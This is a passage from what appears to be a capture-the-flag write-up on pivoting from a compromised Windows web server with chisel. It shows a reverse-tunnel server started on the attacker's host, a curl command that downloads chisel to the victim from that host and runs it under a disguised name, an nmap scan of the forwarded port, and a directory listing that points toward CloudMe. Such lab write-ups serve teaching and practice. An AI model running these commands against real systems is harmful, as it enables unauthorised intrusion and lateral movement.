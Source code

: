 We have a MySQL server and an unknown service running locally. We may need
some pivoting technique to access it (see [Network pivoting state of the art - Chisel - Reverse remote port forwarding](https://orangecyberdefense.com/fr/insights/blog/ethical_hacking/etat-de-lart-du-pivoting-reseau-en-2019/)).

[chisel] is one of the best tool out there for pivoting and it has
[a pre-compiled windows binary](https://github.com/jpillora/chisel/releases/download/v1.7.2/chisel_1.7.2_windows_amd64.gz).

```
$ 7z e chisel_1.7.2_windows_amd64.gz
```

Start the server on your machine:

```
$ chisel server -p 8080 --host 10.10.14.188 --reverse -v
2020/11/04 20:55:17 server: Reverse tunnelling enabled
2020/11/04 20:55:17 server: Fingerprint 67:21:79:97:03:c3:a6:2f:bd:d7:b9:c7:d9:1d:35:47
2020/11/04 20:55:17 server: Listening on 10.10.14.188:8080..
```

Upload the binary & execute the client:

```
PS C:\xampp\htdocs\gym\upload> curl http://10.10.14.188:8080/chisel.exe --output cyfun.exe
PS C:\xampp\htdocs\gym\upload> .\cyfun.exe client -v http://10.10.14.188:8080 R:127.0.0.1:44444:127.0.0.1:8888
2020/11/04 20:05:19 client: Connecting to ws://10.10.14.188:8080
2020/11/04 20:05:20 client: Handshaking...
2020/11/04 20:05:20 client: Fingerprint 1a:a8:a6:b7:c1:58:25:d7:b0:9d:c4:51:4e:8f:b2:5e
2020/11/04 20:05:20 client: Sending config
2020/11/04 20:05:20 client: Connected (Latency 64.5615ms)
2020/11/04 20:05:20 client: tun: SSH connected
```

But we have no clue what service is behind this port:

```
$ nmap 127.0.0.1 -p 44444 -sVC
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-04 21:02 CET
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000080s latency).

PORT      STATE SERVICE    VERSION
44444/tcp open  tcpwrapped

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.00 seconds
```

The only hint we have is on the Download folder:

```
C:\xampp\htdocs\gym\upload> dir C:\users\shaun\Downloads\

 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\users\shaun\Downloads

14/07/2020  12:27    <DIR>          .
14/07/2020  12:27    <DIR>          ..
16/06/2020  15:26        17,830,824 CloudMe_1112.exe
               1 File(s)     17,830,824 bytes
               2 Dir(s)   7,130,439,680 bytes free
```
